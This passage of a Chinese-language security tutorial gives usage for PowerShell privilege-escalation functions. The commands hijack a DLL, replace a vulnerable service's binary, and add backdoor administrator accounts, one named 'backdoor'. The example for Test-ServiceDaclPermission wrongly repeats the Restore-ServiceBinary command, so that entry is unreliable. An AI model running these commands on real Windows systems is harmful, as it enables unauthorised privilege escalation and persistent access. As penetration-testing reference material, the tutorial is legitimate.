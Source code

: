 默认的账号可以通过修改默认参数来修改，如下图：

![Alt text](http://drops.javaweb.org/uploads/images/213a727de205ae0be414a5e3c9ef8a67c414464f.jpg)

**Restore-ServiceBinary**

恢复服务的可执行文件到原始目录。

执行方式：

```
PS C:\> Restore-ServiceBinary -ServiceName VulnSVC

```

**Test-ServiceDaclPermission**

检查某个用户是否在一个服务有自由访问控制的权限，返回true或false。

执行方式：

```
PS C:\> Restore-ServiceBinary -ServiceName VulnSVC

```

**Write-HijackDll**

输出一个自定义命令并且能够自删除的bat文件到$env:Temp\debug.bat，并输出一个能够启动这个bat文件的dll。

执行方式：

```
PS C:\> Write-HijackDll -OutputFile 'E:\temp\test.dll' -Command 'whoami'

```

![Alt text](http://drops.javaweb.org/uploads/images/59c74d5c8e67d445c308df4f03b49df438dee876.jpg)

**Write-UserAddMSI**

生成一个安装文件，运行这个安装文件，则弹出添加用户的框。

执行方式：

```
PS C:\> Write-UserAddMSI

```

**Write-ServiceBinary**

预编译C#服务的可执行文件。默认创建一个默认管理员账号。可通过Command定制自己的命令。

执行方式：

```
PS C:\> Write-ServiceBinary -ServiceName VulnSVC # 添加默认账号
PS C:\> Write-ServiceBinary -ServiceName VulnSVC -UserName "TESTLAB\john" # 指定添加域账号
PS C:\> Write-ServiceBinary -ServiceName VulnSVC -UserName backdoor -Password Password123! # 指定添加用户，用户密码以及添加的用户组。
PS C:\> Write-ServiceBinary -ServiceName VulnSVC -Command "net ..." # 自定义执行命令

```
